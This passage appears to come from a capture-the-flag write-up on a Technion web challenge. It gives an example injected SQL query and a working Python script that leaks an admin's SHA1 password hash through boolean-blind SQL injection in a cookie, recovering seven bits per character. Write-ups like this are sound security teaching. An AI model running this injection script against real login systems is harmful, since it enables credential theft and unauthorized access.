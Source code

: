 Between a lot of fake messages written by (probably) other participants which were able to login as admin, we see the following message:

```
password = input('Insert admin password: ')<br>
x1 = hashlib.sha1(password.encode()).hexdigest()<br>
x2 = hashlib.sha1(x1.encode()).hexdigest()[:10]<br>
print('The flag is: cstechnion{A1m0$7_$3cUR3_' + x2 + '}')
```

So, we need to somehow extract the admin's password. We can turn our SQL injection into a boolean-blind injection and brute-force the password (or the password's hash, to be exact) character after character. This means that for each character in the `user_pass` field, we craft a query so that the user will be logged in only if the query is true. Something like this:

```sql
SELECT user_id, user_name, user_level FROM users WHERE  user_id = 4 and /*n-th character of user_pass is x*/ or user_id = 9999 AND user_name = 'my_user' AND user_pass = 'my_pass'";
```

For each index in the `user_password` string, we can try all possible characters until we see the user being welcomed as logged in. That's when we know we found the correct character. Usually this is done by injecting a query such as `and substring(user_pass,/*index*/,1) = char(/*current_character*/)`.

This should work but will require us to iterate over all possible characters for each index (in the worst case). It's not too bad in our case since we know that the field contains a hex string, so characters are limited to `[0-9a-f]`, but just for fun we'll use a slightly different method to recover each character in a constant number of queries: We'll just extract each character by performing 7 queries to identify each bit in the character (ASCII characters always have the eighth bit zeroed).

The code:

```python
from pwn import *
import requests

BITS_IN_BYTE        = 8
PASSWORD_FIELD_LEN  = 20*2 # SHA1 hash -> 20 bytes, each byte is printed as two characters

ADMIN_USER_ID       = 4

def inject_query(query):
    cookies = {
        "user_id": query,
        "user_name": "name",
        "user_pass": "pass"
    }
    r = requests.get("http://ctf.cs.technion.ac.il:4010/", cookies=cookies)
    return 'Not you? <a href="signout.php">Sign out</a>' in r.text

def leak_user_pass_character(user_id, index):
    byte = 0
    for i in range(BITS_IN_BYTE):
        bit_mask = (1 << i)
        is_bit_set = inject_query(f"{user_id} and ord(substring(user_pass,{index+1},1))&{bit_mask}={bit_mask} or FALSE ")
        byte |= (is_bit_set << i)
    return chr(byte)
    
def leak_password(user_id):
    password = ""
    with log.progress(f'Leaking password field for user {user_id}') as p:
        for i in range(PASSWORD_FIELD_LEN):
            p.status(f"Processing index {i}, recovered '{password}' so far...")
            new_char = leak_user_pass_character(user_id, i)
            password += new_char
    return password
```